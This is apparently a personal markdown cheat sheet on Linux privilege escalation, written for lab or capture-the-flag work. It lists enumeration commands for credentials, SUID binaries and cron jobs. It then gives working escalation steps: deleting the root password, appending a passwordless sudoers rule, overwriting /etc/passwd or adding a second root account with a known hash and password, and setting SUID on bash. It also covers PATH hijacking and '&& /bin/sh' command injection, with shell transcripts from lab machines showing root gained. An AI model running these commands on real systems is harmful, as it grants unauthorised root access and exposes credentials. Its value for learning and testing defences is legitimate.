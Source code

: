 ```yaml
---
creation date: December 19th 2022
last modified date: December 19th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Linux Privilege Escalation]]  
___

## Description:  
Auto enumeration with [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
### useful enumeration

users
`cat /etc/passwd`

**What commands can the user execute with sudo?
`sudo -l

look for wildcards to run anything or try path traversal
``

**What is the kernel version and architecture type?
`uname -a
`uname -r

**What is the OS version
`cat /etc/*-release
kernel modules
`lsmod`
`/sbin/modinfo libata`

**What languages are installed?
`man -k language
`which gcc
`which g++

**running processes**
ps aux

**Run pspy64 on the machine to get the process run by root.**

**What are the SUID/GUID binaries?
``find / -perm -u=s -type f 2>/dev/null
``find / -perm -g=s -type f 2>/dev/null

look for vulnerable programs that run as root
[gtfobins](https://gtfobins.github.io/)

**Are there world writable files?
`find / -writable -type d 2>/dev/null

**What have users been doing? Command history?
`history
``.bash_history

**Are there any plaintext credentials to be found?
`find . -type f | xargs grep –i “password”
`grep –r . –e “password” 2>/dev/null

**What jobs are scheduled?
`crontab -l
l`s -lah /etc/cron* 2>/dev/null
`cat /etc/crontab`

networking
`netstat -tulpn`
`/sbin/route`
`ss -anp`
`cd /etc/iptables`
`cat /etc/hosts` (can find vhosts on webservers or check config files)

**applications installed**
`dpkg -l`

**unmounted disks
`cat /etc/fstab`
`mount`
`/bin/lsblk`

**What processes and services are running?  Which are running as root?
`ps –ef
`ps –ef | grep root

**Script that deletes the root password**
bash:
`passwd -d root`
`su root`
python:
`import os;os.system(\"passwd -d root\")`
or
`echo "import os;os.system(\"passwd -d root\")" > bash.py`


**Scripts that can be used if they run as root:
`echo “user ALL=(ALL) NOPASSWD:ALL” >> /etc/sudoers
`echo “user::0:0:System Administrator:/root/root:/bin/bash” >> /etc/passwd
`bash -i

**Editing the Sudoers file to give root
change:
`loneferret ALL=NOPASSWD: !/usr/bin/su, /usr/local/bin/ht 
To:
`loneferret ALL=NOPASSWD: /bin/su, /usr/local/bin/ht 
`loneferret@Kioptrix3:~$ sudo /bin/su 

**Can you set a SUID on bash?
`chmod +s /bin/bash`
`/bin/bash -p`

**Is /etc/passwd writable?**
Removing x means root requires no password
`echo root::0:0:root:/root:/bin/bash > /etc/passwd`
--OR--
generate hash of the password:
`openssl passwd -1 -salt [salt value] {password}
`openssl passwd -1 -salt user3 pass123
to create a second root user with "mrcake" password:
`echo "root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash" >> /etc/passwd
to switch to a root2 account that was just created:
`su root2
`Password: mrcake
su root
**Can you run tcpdump?**
run tcpdump with -I lo for loopback
or what other systems are connecting to it? You might be able to get a username and password

**is it AD domain joined?**
check:
`/var/lib/sss/db`
`strings cache_cerberus.local.ldb
Look for password hashes

**Program that runs a command without an absolute path**
Create a program with the same name in the tmp directory (echo /bin/bash >> command) and then add tmp to the beginning of path (export PATH=/tmp:$PATH)

```
kane@pwnlab:~$ cd /tmp

cd /tmp

kane@pwnlab:/tmp$ echo /bin/bash > cat

echo /bin/bash > cat

kane@pwnlab:/tmp$ chmod 777 cat

chmod 777 cat

kane@pwnlab:/tmp$ export PATH=/tmp:$PATH

export PATH=/tmp:$PATH

kane@pwnlab:/tmp$ cd /home/kane

cd /home/kane

kane@pwnlab:~$ ./msgmike

./msgmike

mike@pwnlab:~$ id

id

uid=1002(mike) gid=1002(mike) groups=1002(mike),1003(kane)

```
**Can you use command concatenation with && /bin/sh or &&/bin/bash?

```
mike@pwnlab:/home/mike$ ./msg2root

./msg2root

Message for root: hello && /bin/sh

hello && /bin/sh

hello

# id

id

uid=1002(mike) gid=1002(mike) euid=0(root) egid=0(root) groups=0(root),1003(kane)

```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 19th 2022 (01:02 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
